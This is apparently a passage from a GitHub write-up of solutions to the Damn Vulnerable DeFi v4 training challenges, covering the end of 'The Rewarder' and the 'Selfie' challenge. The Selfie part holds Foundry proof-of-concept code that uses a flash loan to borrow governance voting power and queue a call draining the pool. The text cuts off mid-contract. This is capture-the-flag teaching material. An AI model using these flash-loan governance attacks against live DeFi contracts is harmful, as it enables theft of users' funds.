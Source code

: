 ```solidity
                proof: merkle.getProof(wethLeaves, 188)  //player at index 188
            });
        }
    }
    //multiple claims
    distributor.claimRewards({inputClaims: claims, inputTokens: tokensToClaim});

    dvt.transfer(recovery, dvt.balanceOf(player));
    weth.transfer(recovery, weth.balanceOf(player));
}
```

Run `forge test --mp test/the-rewarder/TheRewarder.t.sol --isolate` to validate test

---

## 6.SELFIE

**Objective**

_from `_isSolved()` in test_

1. _Player has taken all tokens from the pool_

**Attack Analysis**

- The vulnerability is associated with how the voting power should be accounted to prevent an attacker from queue actions while doing a flahs loan.
- First, the attacker needs to ask a flash loan to `SelfiePool.flashLoan()` and receive the tokens in a contract implementing `IERC3156FlashBorrower`. To add an action in the queue, it's needed to have more than half of the supply of the `DamnValuableVotes` token. See `SimpleGovernance._hasEnoughVotes()`.
- In `onFlashLoan()` of the attacker´s contract, they need to first delegate the votes using `DamnValuableVotes.delegate()` to have the tokens received accounting for voting power.
- Then, in the same function, the attacker has to queue an action to call `SelfiePool.emergencyExit()` using the address of the `recovery`.
- Finally, the attacker must wait for at least to days and call `SimpleGovernance.executeAction()`.

**POC**

See [test/selfie/Selfie.t.sol](https://github.com/CanonicalJP/damn-vulnerable-defi-v4/blob/master/test/selfie/Selfie.t.sol)

```solidity
function test_selfie() public checkSolvedByPlayer {
    bytes memory data = abi.encodeWithSignature("emergencyExit(address)", recovery);

    Attack attackContract = new Attack(address(pool), address(governance));
    pool.flashLoan(IERC3156FlashBorrower(address(attackContract)), address(token), TOKENS_IN_POOL, data);

    vm.warp(3 days);
    governance.executeAction(1);

    console.log(token.balanceOf(address(pool)));
}

contract Attack is IERC3156FlashBorrower {
    SelfiePool private pool;
    SimpleGovernance private governance;

    constructor(address _pool, address _governance) {
        pool = SelfiePool(_pool);
        governance = SimpleGovernance(_governance);
    }

    function onFlashLoan(
```